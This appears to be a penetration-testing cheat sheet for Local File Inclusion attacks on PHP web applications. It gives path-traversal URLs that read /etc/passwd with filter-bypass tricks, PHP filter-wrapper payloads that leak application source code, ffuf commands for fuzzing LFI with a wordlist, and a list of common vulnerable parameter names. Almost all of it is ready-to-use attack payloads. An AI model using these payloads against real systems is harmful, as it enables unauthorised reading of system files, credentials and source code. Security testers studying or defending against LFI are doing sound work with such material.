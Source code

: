 
**List of payloads**
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File) Inclusion/README.md
**Non-recursive filter bypass**
```Python
http://example.com/read.php?file=..././..././..././..././..././..././etc/passwd
```
**Mangle capitals & operators for filter bypasses**
```Python
http://example.com/read.php?file=..././..././..././..././..././..././eTc/p+AsS+wd
```
**PHP Wrappers**
- Leak php instead of executing it.
```Python
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```
**ffuf**
- Copy request to file via burp
```Python
ffuf -request r -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
```
**Filter by wordcount**
```Python
ffuf -request r -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fw 19,20
```

**List of most common LFI parameters**
```bash
?cat={payload}
?dir={payload]
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload]
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```
